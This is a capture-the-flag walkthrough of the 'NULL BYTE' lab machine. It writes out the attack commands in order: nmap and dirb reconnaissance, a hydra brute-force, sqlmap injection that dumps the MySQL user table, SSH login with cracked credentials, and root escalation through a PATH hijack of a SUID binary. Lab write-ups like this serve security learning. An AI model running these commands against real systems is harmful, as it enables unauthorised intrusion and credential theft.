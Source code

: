 # NULL BYTE

# TOOLS
- nmap
- hydra
- sqlmap
- exiftool
- md5 decryption
- base64 decoder


# Find IP Address
I will run netdiscover.

![](https://i.imgur.com/vnJ6so6.png)

`netdiscover -r 192.168.1.0/24`

# Port scan
running nmap

![](https://i.imgur.com/pT5BAsY.png)

`nmap -A 192.168.53.135`
so here we have web server on port 80 and ssh service running on port 777

let's look at the website

![](https://i.imgur.com/805Mu33.png)

okay there's nothing here and no robots.txt
let's look at dirb

![](https://i.imgur.com/cEerdlP.png)

`dirb 192.168.53.135`
directory uploads ! ,but nothing interesing in it ..
and phpmyadmin looks interesing . tried to log at it as root root and was wrong so let's dig more

so nothing here but this photo? , let's examine it!
downloaded it and I will run exiftool on it

![](https://i.imgur.com/WMhF0kp.png)

`exiftool main.gif`
and there's comment there! .. it doesn't look like a username , I think i will use it as a directory

![](https://i.imgur.com/U1lkogZ.png)

and yes it is!, so it tells us it needs key. let's look at the source code

![](https://i.imgur.com/UYmtsrl.png)

so maybe we can bruteforce it using hydra.

![](https://i.imgur.com/RBrAce4.png)

and we got a hit

entering it will get us to another page for searching usernames

![](https://i.imgur.com/cX9CbJO.png)

I typed nothing and get us all the result

![](https://i.imgur.com/zi7W9Kz.png)

and I tried injecting a double quote , it tells us it's mysql

![](https://i.imgur.com/cGoH9Xk.png)

let's use sqlmap !

![](https://i.imgur.com/cuTJj3U.png)

`sqlmap http://192.168.53.135/kzMb5nVYJw/420search.php?usrtosearch= --dbs`

and here's the result

![](https://i.imgur.com/EEshmrO.png)

okay let's enumerate mysql tables

![](https://i.imgur.com/LsTjb0w.png)

`sqlmap http://192.168.53.135/kzMb5nVYJw/420search.php?usrtosearch= -D mysql -tables`

let's dump table user

![](https://i.imgur.com/KZMd4Em.png)

`sqlmap http://192.168.53.135/kzMb5nVYJw/420search.php?usrtosearch= -D mysql -T user -dump`

so i think the root username and sunnyvale password is for phpmyadmin so let's try
and yes now we have acsess to phpmyadmin !
we could just dumb the tables for phpmyadmin from sqlmap but since we got here let's continue...

looking at the tables I found this..

![](https://i.imgur.com/ISMMGuR.png)

so after trying to crack it with john and couldn't crack it .. i tried to decode it as base64 using [base64 decoder](https://www.base64decode.org/)

![](https://i.imgur.com/Ce42jhJ.png)

so it gave us another hash ... it looks like md5 so let's try it [md5 decryption](https://www.md5online.org/md5-decrypt.html)

![](https://i.imgur.com/zEj8oLA.png)

okay we have another password , sure thing it's for ssh , DON'T FORGET it's running on port 777.

![](https://i.imgur.com/rN2bH1x.png)

`ssh ramses@192.168.53.135 -p 777`

# Privilege escalation

after looking around I found a procwatch file and readme file at /var/www/backup

looking at readme

![](https://i.imgur.com/WKLyJCV.png)

let's find out what is this procwatch file

![](https://i.imgur.com/qeq0dNI.png)

`file procwatch`

okay that means we are on the right path , let's run the executable file

![](https://i.imgur.com/uup29RS.png)

here it just run ps !
so if we manage to make this file thinks that "ps" command is "sh" , running procwatch will give us root shell

looking at those articles [path variable](http://www.linfo.org/path_env_var.html#:~:text=PATH%20is%20an%20environmental%20variable,commands%20issued%20by%20a%20user.)  ,  [exploit suid](https://www.pentestpartners.com/security-blog/exploiting-suid-executables/) will help alot.

so we basiclly will copy "/bin/sh" to somewhere and then append it to the path variable.
so when we run the file first thing it will run ps and $PATH will search for ps at /tmp/ where we coppied "sh" as ps there

let's do it and get a copy of sh command

![](https://i.imgur.com/tVkWfqT.png)

`cp /bin/sh /tmp/ps`

printing out PATH variable so we can know what to modify and then modifying it

![](https://i.imgur.com/q5YeqBi.png)

`echo $PATH`
`export PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games`

so here we ran procwatch and we're root now!

![](https://i.imgur.com/KfWTJPk.png)

let's get our proof that we were here

![](https://i.imgur.com/wnFv1eF.png)


# References

- [path variable](http://www.linfo.org/path_env_var.html#:~:text=PATH%20is%20an%20environmental%20variable,commands%20issued%20by%20a%20user.)

- [exploit suid](https://www.pentestpartners.com/security-blog/exploiting-suid-executables/)


